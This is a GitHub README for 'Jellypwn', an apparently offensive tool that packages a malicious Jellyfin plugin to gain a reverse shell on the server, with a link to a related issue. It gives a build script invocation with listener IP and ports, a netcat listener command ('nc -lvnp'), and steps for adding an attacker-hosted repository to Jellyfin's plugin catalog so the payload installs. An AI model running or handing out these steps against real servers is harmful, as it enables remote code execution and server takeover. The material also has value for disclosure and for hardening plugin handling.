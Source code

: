# Jellypwn

Get a reverse-shell on jellyfin using plugins

<https://github.com/jellyfin/jellyfin-web/issues/4653>

**TDLR;** Jellyfin allows you (admin user) to upload plugins to the server, these plugins are just .zip files with a dll file inside it. You can upload a plugin that executes a reverse-shell on the server.

## PoC video

<!--![website2](https://github.com/ScribblerCoder/Jellypwn/assets/35840617/155316da-464b-4d46-873b-a167b54d166b)-->
<p align="center">
<img src="https://github.com/ScribblerCoder/Jellypwn/assets/35840617/155316da-464b-4d46-873b-a167b54d166b" width="800">
</p>
<br/>

## How to use

This repo builds the plugin and hosts it on a webserver, using microsoft's dotnet SDK docker image. You can build the plugin yourself if you have dotnet.

```console
bash build.sh [-p LISTENPORT] [-l WEBPORT] [-i IP]
```

Then run a netcat listener on the port you specified

```console
nc -lvnp LISTENPORT
```

To install your plugin on jellyfin you need to add a reposiory to the plugin catalog, you can do this by going to the plugin catalog and clicking on the "Repositories" Tab. Then click on "+" button, add the url of the webserver where you are hosting the plugin. Then your plugin should appear in the catalog for installation.
